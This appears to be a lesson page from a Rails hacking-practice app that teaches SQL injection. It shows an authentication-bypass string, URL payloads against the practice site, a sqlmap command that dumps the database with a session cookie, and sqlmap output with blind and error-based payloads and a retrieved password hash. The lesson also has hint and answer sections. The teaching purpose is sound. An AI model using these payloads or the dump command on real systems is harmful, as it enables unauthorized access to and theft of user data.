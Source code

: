 # SQL Injection

### Background:

A SQL injection vulnerability occurs whenever user input is used in a SQL query without any escaping, allowing the user to append and execute their own SQL.
For example, the following query would be vulnerable to SQL injection if constructed with a user-supplied name and password:

```ruby
"SELECT * FROM users WHERE name='" + name + "' and password='" + password + "' LIMIT 1"
```

We can provide a password like `' or '1'='1` and it would cause the full query to become:

```sql
SELECT * FROM users WHERE name='user' and password='' or '1'='1' LIMIT 1
```

This reads as:
- Select the first user where the name is `user` and the password is blank
- OR where the condition `'1'='1'` is true.

Since `'1'='1'` is always true, this would effectively select the first user, without needing to know their username or password.

When it comes to Rails, [ActiveRecord](http://guides.rubyonrails.org/active_record_basics.html) makes this easier to avoid. We almost never have to write full SQL queries like the example above. However, there are still some ways to get into trouble. For example, there are several [ActiveRecord query methods that do construct chunks of raw SQL](https://rails-sqli.org/), and can be very dangerous when combined with unescaped user input.

## Example

http://hack.jackmc.xyz/profiles/1

When visiting the above link, we see the profile with the id value of 1 as expected. However, if we provide an unexpected id value we can see a SQL error: http://hack.jackmc.xyz/profiles/test

```
ActiveRecord::StatementInvalid in ProfilesController#show
Mysql2::Error: Unknown column 'test' in 'where clause': SELECT `profiles`.* FROM `profiles` WHERE (id=test) LIMIT 1
```

Let's append some SQL to make this return a profile, even when providing it an invalid `id`: http://hack.jackmc.xyz/profiles/1337

Similar to the above admin login example, this will return the first profile: [http://hack.jackmc.xyz/profiles/1337%20or%20'a'='a'](http://hack.jackmc.xyz/profiles/1337%20or%20'a'='a')

---
## Try it out!
This app is vulnerable to SQL injection on the products page.

### Questions:
#### Can you identify the vulnerable parameter?
<details>
  <summary><b>Hint</b></summary>
  What characters would cause unexpected behaviour? The background section, and resources linked below should help with this.
</details>

<details>
  <summary><b>Answer</b></summary>
  The vulnerable parameter is <code>search</code>. This is evident when searching for something with a single quote <code>'</code>. Ex:
  http://hack.jackmc.xyz/products?utf8=✓&search=evil'&commit=
</details>

#### Can you use something similar to the `or 1=1` trick to return other products here?
<details>
  <summary><b>Hint</b></summary>
Look at the query that's being executed. The <code>LIKE</code> clause has wildcard characters on either side and makes this a bit trickier.
</details>

<details>
  <summary><b>Answer</b></summary>

[http://hack.jackmc.xyz/products?search=test%27or%271%25%27=%271](http://hack.jackmc.xyz/products?search=test%27or%271%25%27=%271)

This works because the final query will be:

```
SELECT `products`.* FROM `products` WHERE (user_id = 1 AND name LIKE '%test'or'1%'='1%')
```

And <code>'1%'='1%'</code> is also true.
</details>

#### What is the impact of this kind of bug? Are there common tools that help with exploitation?
<details>
  <summary><b>Hint</b></summary>
What else is in this database? Are we only concerned about access to the data?
</details>

<details>
  <summary><b>Answer</b></summary>
This is a very high impact vulnerability. It would allow access to anything in the same database. In this case that means not only the products of other users, but also their profile information and password hashes.
Note that access isn't the only concern here, since we can actually do whatever the current database user could do. This often means that modifying data or dropping tables is also possible.
<a href="https://sqlmap.org/">SQLmap</a> is a common tool for exploiting these types of flaws. Using SQLmap the database can be dumped quite easily, with a command such as:

```
python sqlmap.py -u http://hack.jackmc.xyz/products?search=pikachu \
--cookie="_learn_to_hack_session=<cookie value>" --dump
```
...
```
---
Parameter: search (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: search=pikachu') AND 2162=2162 AND ('mMpj'='mMpj

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: search=pikachu') AND (SELECT 1986 FROM(SELECT COUNT(*),CONCAT(0x7170716a71,(SELECT (ELT(1986=1986,1))),0x716a6a6271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND ('KPfZ'='KPfZ

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SLEEP)
    Payload: search=pikachu') AND (SELECT * FROM (SELECT(SLEEP(5)))ROZg) AND ('DfLC'='DfLC
---
```
...
```
[16:09:13] [INFO] retrieved: dev@shopify.com
[16:09:14] [INFO] retrieved: $2a$11$85jaXEbLhrShlCYZC0x3COxpC74NZws3oCNb.fm5L9RUHKSxQ/ofS
[16:09:14] [INFO] retrieved: 1
[16:09:15] [INFO] retrieved: 2018-06-15 18:24:13
```

</details>

### Done?

There's one more of these hiding in the app! See if you can track it down.

### Resources:
https://www.owasp.org/index.php/SQL_Injection

https://rails-sqli.org/

http://gavinmiller.io/2015/fixing-sql-injection-vulnerabilities/

https://www.youtube.com/watch?v=2GHWAYys1is (2016 RailsConf Talk - "Will it inject?")
